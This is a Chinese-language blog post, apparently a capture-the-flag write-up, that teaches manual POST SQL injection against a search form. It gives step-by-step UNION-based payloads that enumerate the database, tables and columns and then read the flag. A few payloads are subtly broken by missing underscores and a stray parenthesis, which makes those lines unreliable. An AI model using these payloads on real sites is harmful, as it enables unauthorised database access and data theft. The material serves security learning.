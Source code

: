 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Web
    
    
---
```


## 原理:

简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

**一个简单的输入搜索框**


## 考察点：
**sql注入中的post注入。**

一般有两种方式：

第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：

**1.** 首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：(1)用户可以控制传参，(2)用户输入的语句被带入数据库进行查询。

**2.** Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

如何理解所构造的payload？


OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

**3.** 用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

**4.** 使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

**5.** OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

**6.** 接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**
 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

**7.** 同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

**8.** 最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！






[参考链接（一）](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
